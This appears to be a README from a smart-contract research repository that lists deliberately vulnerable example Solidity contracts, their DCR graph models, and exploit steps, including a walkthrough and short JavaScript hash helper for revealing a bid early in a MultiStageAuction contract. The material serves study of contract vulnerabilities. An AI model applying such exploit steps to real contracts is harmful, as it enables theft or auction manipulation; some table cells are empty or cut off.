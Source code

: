 # Exploits Written for Example Vulnerable Contract

| **#** | **Vulnerability Type**                                                               | **Contract**                                                | **DCR Model**                                                                                                                                   | **Notes on DCR Model**                                                                                                                      | **The way to exploit**                                                                                                                           |
| ----- | ------------------------------------------------------------------------------------ | ----------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------ |
| 1     | Time-based Vulnerability (related to Automatic Deprecation and Time Incentivization) | [ProductOrder](contracts/source/ProductOrder.sol)           | [1701030](https://dcrgraphs.net/Tool?id=1701030) [View Publicly](https://dcrgraphs.net/tool/main/Graph?id=53d090df-ca7c-4b38-bde6-1cac4c0f551c) | We make the assumption that the applyDiscount is part of payForOrder and not modeled (captured by the model). Therefore, the model does not | Call the constructor with (2, 60); Make a transaction to applyDiscount (1); Delay for 60 seconds and make another transaction to confirmOrder(); |
| 2     | Time-based                                                                           | [PrizeDistribution](contracts/source/PrizeDistribution.sol) | [1701044](https://dcrgraphs.net/Tool?id=1701044)                                                                                                | We have to rely on [this](https://github.com/mojtaba-eshghie/Clawk/issues/37) for this model to be useful                                   |                                                                                                                                                  |
| 3     | Action ordering (lack of proper guard condition on multiple functions)               | [MultiStageAuction](/exploiter/contracts/source/)           | [1701049](https://dcrgraphs.net/Tool?id=1701049)                                                                                                |                                                                                                                                             |                                                                                                                                                  |
| 4     |                                                                                      |                                                             |                                                                                                                                                 |                                                                                                                                             |                                                                                                                                                  |
| 5     |                                                                                      |                                                             |                                                                                                                                                 |                                                                                                                                             |                                                                                                                                                  |

## Exploiting MultiStageAuction

### Commit Phase:

1. Commit a bid using the `commitBid` function.

   - To generate a hashed bid for, let's say, 5 ether with the secret "mySecret", you can use the following JavaScript code in a browser console or Node.js environment:

   ```javascript
   web3.utils.keccak256(web3.utils.toWei("5", "ether") + "mySecret");
   ```

   - This will give you a hashed value. Let's assume the hashed value is `0x1234567890abcdef....`.
   - In Remix, call the `commitBid` function with the hashed value `0x1234567890abcdef....`.

### Exploit:

1. While still in the Commit Phase (i.e., before calling `endCommitPhase`), reveal the bid using the `revealBid` function.
   - Call the `revealBid` function with parameters:
     - `amount`: `5000000000000000000` (This represents 5 ether in wei)
     - `secret`: "mySecret"

By following these steps, you've successfully revealed your bid during the Commit Phase, exploiting the vulnerability in the contract.

### Verification:

1. To verify the exploit, you can check the `highestBid` and `highestBidder` variables in Remix after the `revealBid` call. They should be set to 5 ether and the address of the exploiter, respectively.

### Attack code:

```javascript
const Web3 = require("web3");
const web3 = new Web3();

function generateHash(amountInEther, secret) {
  const amountInWei = web3.utils.toWei(amountInEther.toString(), "ether");
  const hashedValue = web3.utils.keccak256(amountInWei.toString() + secret);
  return hashedValue;
}

console.log(generateHash(5, "mySecret"));
```

**Hash you should use for `commitBid` is (result of running the exploit js):**  
`0xd233b7be403e28e5b0968965e572505c16a10e74d7cf1486670213746df467ca`

---
